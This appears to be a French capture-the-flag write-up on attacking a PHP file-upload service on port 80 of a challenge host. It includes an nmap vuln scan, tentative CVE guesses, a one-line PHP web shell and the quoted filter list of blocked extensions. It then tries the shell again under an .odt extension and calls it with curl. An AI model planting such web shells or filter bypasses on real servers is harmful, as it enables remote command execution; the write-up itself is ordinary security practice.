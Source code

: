 # applicatif php port 80

c'est la partie juteuse du CTF, pas mal de truc à faire dans celui là et pas besoin d'outils de la mort : on peut tout faire à la main ou presque.

avec un navigateur, on s'aperçoit qu'il s'agit d'un service upload de fichier. ca sent la faille applicative.

http://51.68.36.97/

en faisant un f12 pour voir le source on remarque que le receiver du post est un fichier `php`.

envoi d'un fichier image random redirige vers http://51.68.36.97/uploads/

pas de robots.txt ni de sitemap.


## énumération de failles

```sh
nmap -Pn -p 80 -script vuln -oA vuln $RHOST
```

voir [rapport nmap](./vuln.nmap)

notable avec un exploit:

- CVE-2021-4479 : buffer overflow CVE-2021-4479 mais pas de RCE ?
- CVE-2014-4210 : pour du weblogic ? xss ?

avec metasploit

- mod_cgi shellshock ?
- mod_negociation ?
- mod_userdir pour énumération ?

## exploit applicatif via uploads

:bulb: injecter un script php ?

### poc

shell.php
```php
<?php system($_GET['cmd']); ?>
```

ERRREUR
> Sorry, there was an error uploading your file. Forbidden extensions are: php, php2, php3, php4, php5, php6, php7, phps, pht, phtm, phtml, pgif, shtml, phar, inc, hphp, ctp 

voir https://thibaud-robin.fr/articles/bypass-filter-upload/

en cv-rda.odt: upload success

```sh
curl http://51.68.36.97/uploads/cv-rda.odt?cmd=id
<?php system($_GET['cmd']); ?>
```
